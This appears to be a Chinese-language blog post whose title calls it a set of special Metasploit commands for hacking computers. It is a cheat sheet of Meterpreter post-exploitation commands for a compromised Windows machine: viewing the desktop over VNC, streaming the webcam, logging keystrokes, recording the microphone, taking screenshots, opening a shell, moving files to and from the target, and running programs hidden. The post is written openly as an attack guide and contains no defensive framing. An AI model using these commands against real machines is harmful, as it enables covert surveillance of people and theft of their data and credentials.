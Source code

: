 ```yaml
---
layout: post
title: '在Msf黑电脑的专用命令'
subtitle: 'Metasploit'
tags: linux 命令 shell
keywords: Msf Metasploit shell 黑电脑 专用
cover: https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/MsfCmd/cover.jpg
---
```

### 使用vnc查看桌面
```msf
run vnc
```
### 监视摄像头
```msf
webcam_stream
```
### 监视键盘按下内容  
```msf
keyscan_start
//开启键盘记录
keyscan_dump
//显示键盘输入内容
keyscan_stop
//停止键盘记录
```
### 录制声音
```msf
record -d xx
//录制音频xx秒
record_mic
//录制音频
```
### 截屏
```msf
screenshot
```
### 进入cmd
```msf
shell
```
### 从目标机器下载东西
```msf
download C:\\path\\to\\file
```
### 从kali上传内容到目标机器
```msf
upload ~/file C:\\path\\up\\
```
### 查看有几个摄像头
```msf
webcam_list
```
### 运行程序
```msf
execute -f 文件名
//运行文件
execute -f -H 文件名
//隐秘的运行应用
execute -i -f -H 文件名
//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
```
